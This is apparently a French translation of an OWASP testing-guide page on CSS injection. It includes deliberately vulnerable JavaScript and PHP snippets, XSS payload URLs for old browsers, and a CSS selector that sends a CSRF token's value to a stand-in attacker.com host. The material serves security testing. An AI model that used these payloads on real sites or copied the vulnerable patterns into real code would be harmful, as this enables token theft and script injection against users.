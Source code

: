 # Test d'injection CSS

|ID          |
|------------|
|WSTG-CLNT-05|

## Sommaire

Une vulnérabilité d'injection CSS implique la capacité d'injecter du code CSS arbitraire dans le contexte d'un site Web de confiance qui est rendu dans le navigateur d'une victime. L'impact de ce type de vulnérabilité varie en fonction de la charge utile CSS fournie. Cela peut conduire à des scripts intersites ou à une exfiltration de données.

Cette vulnérabilité se produit lorsque l'application permet au CSS fourni par l'utilisateur d'interférer avec les feuilles de style légitimes de l'application. L'injection de code dans le contexte CSS peut permettre à un attaquant d'exécuter JavaScript dans certaines conditions, ou d'extraire des valeurs sensibles à l'aide de sélecteurs CSS et de fonctions capables de générer des requêtes HTTP. Généralement, permettre aux utilisateurs de personnaliser les pages en fournissant des fichiers CSS personnalisés représente un risque considérable.

Le code JavaScript suivant montre un possible script vulnérable dans lequel l'attaquant est capable de contrôler le `location.hash` (source) qui atteint la fonction `cssText` (sink). Ce cas particulier peut conduire à XSS basé sur DOM dans les anciennes versions de navigateur ; pour plus d'informations, consultez le [DOM-based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

L'attaquant pourrait cibler la victime en lui demandant de visiter les URL suivantes :

- `www.victim.com/#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/#red;-:expression(alert(URL=1));` (IE 7/8)

La même vulnérabilité peut apparaître dans le cas du XSS réfléchi, par exemple, dans le code PHP suivant :

```html
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

D'autres scénarios d'attaque impliquent la possibilité d'extraire des données grâce à l'adoption de règles CSS pures. De telles attaques peuvent être menées via des sélecteurs CSS, conduisant à l'exfiltration de données, par exemple, des jetons CSRF.

Voici un exemple de code qui tente de sélectionner une entrée avec un `name` correspondant à `csrf_token` et une `value` commençant par un `a`. En utilisant une attaque par force brute pour déterminer la "valeur" de l'attribut, il est possible d'effectuer une attaque qui envoie la valeur au domaine de l'attaquant, par exemple en essayant de définir une image d'arrière-plan sur l'élément d'entrée sélectionné.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

D'autres attaques utilisant du contenu sollicité, telles que CSS, sont présentées dans [Mario Heiderich's talk, "Got Your Nose"](https://www.youtube.com/watch?v=FIQvAaZj_HA) sur YouTube.

## Objectifs des tests

- Identifier les points d'injection CSS.
- Évaluer l'impact de l'injection.

## Comment tester

Le code doit être analysé pour déterminer si un utilisateur est autorisé à injecter du contenu dans le contexte CSS. En particulier, la manière dont le site Web renvoie les règles CSS sur la base des entrées doit être inspectée.

Voici un exemple de base :

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

Le code ci-dessus contient une source `location.hash`, contrôlée par l'attaquant, qui peut s'injecter directement dans l'attribut `style` d'un élément HTML. Comme mentionné ci-dessus, cela peut conduire à des résultats différents selon le navigateur utilisé et la charge utile fournie.

Les pages suivantes fournissent des exemples de vulnérabilités d'injection CSS :

- [Mot de passe "cracker" via CSS et HTML5](http://html5sec.org/invalid/?length=25)
- [Lecture des attributs CSS](http://eaea.sirdarckcat.net/cssar/v2/)
- [Attaques basées sur JavaScript utilisant `CSSStyleDeclaration` avec une entrée non échappée](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)

Pour plus de ressources OWASP sur la prévention de l'injection CSS, consultez la [Fiche de triche pour la sécurisation des feuilles de style en cascade](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
